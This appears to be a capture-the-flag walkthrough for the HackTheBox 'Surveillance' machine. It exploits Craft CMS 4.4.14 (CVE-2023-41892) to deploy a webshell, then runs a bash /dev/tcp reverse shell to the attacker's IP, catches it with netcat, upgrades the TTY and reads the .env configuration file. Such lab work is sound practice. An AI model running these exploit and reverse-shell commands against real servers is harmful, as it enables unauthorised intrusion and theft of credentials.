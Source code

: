 -Powered by Craft CMS 4.4.14
-search exploit CMS 4.4.14
https://github.com/0xfalafel/CraftCMS_CVE-2023-41892

```bash
┌──(pwn㉿kali)-[~/Surveillance]
└─$ sudo python3 exploit.py http://surveillance.htb
/home/pwn/Surveillance/exploit.py:68: SyntaxWarning: invalid escape sequence '\e'
  "configObject[class]": "craft\elements\conditions\ElementCondition",
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you're done

[!] Enjoy your shell

> whoami
www-data

> bash -c 'bash -i >& /dev/tcp/10.10.14.2/9999 0>&1'

```

```bash
sudo nc -nlvp 9999

```

```bash
──(pwn㉿kali)-[~/Surveillance]
└─$ nc -lvnp 9999               
listening on [any] 9999 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.245] 58242
bash: cannot set terminal process group (1088): Inappropriate ioctl for device
bash: no job control in this shell
www-data@surveillance:~/html/craft/web$ ls

```

```bash
www-data@surveillance:~/html/craft/web$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<eb$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@surveillance:~/html/craft/web$ ^Z
zsh: suspended  nc -lvnp 9999
                                                                                                                  
┌──(pwn㉿kali)-[~/Surveillance]
└─$ stty raw -echo ;fg
[1]  + continued  nc -lvnp 9999

www-data@surveillance:~/html/craft/web$ ls
cpresources  css  fonts  images  img  index.php  js  shell.php  web.config
www-data@surveillance:~/html/craft/web$ 

```
https://craftcms.com/docs/4.x/config/db.html
```bash
www-data@surveillance:~/html/craft$ cat .env
# Read about configuration, here:
# https://craftcms.com/docs/4.x/config/

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

```
